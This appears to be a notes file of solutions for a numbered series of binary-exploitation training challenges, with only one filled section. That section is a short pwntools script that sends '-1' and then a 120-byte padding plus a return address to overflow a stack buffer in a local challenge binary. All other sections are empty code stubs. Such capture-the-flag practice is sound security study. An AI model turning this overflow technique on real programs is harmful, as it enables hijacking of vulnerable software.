 ## 4
### .0
```py
from pwn import *
context(os='linux',arch='amd64')
elfpath=os.path.join('/challenge',os.listdir('/challenge')[0])
io=process(elfpath)

io.sendline('-1')

pl=b'b'*120+p64(0x40229d)

io.send(pl)
print(io.recvall().decode())

```
### .1
```py

```
## 5
### .0
```py

```
### .1
```py

```
## 6
### .0
```py

```
### .1
```py

```
## 7
### .0
```py

```
### .1
```py

```
## 8
### .0
```py

```
### .1
```py

```
## 9
### .0
```py

```
### .1
```py

```
## 10
### .0
```py

```
### .1
```py

```
## 11
### .0
```py

```
### .1
```py

```
## 12
### .0
```py

```
### .1
```py

```
## 13
### .0
```py

```
### .1
```py

```
## 14
### .0
```py

```
### .1
```py

```
## 15
### .0
```py

```
### .1
```py

```
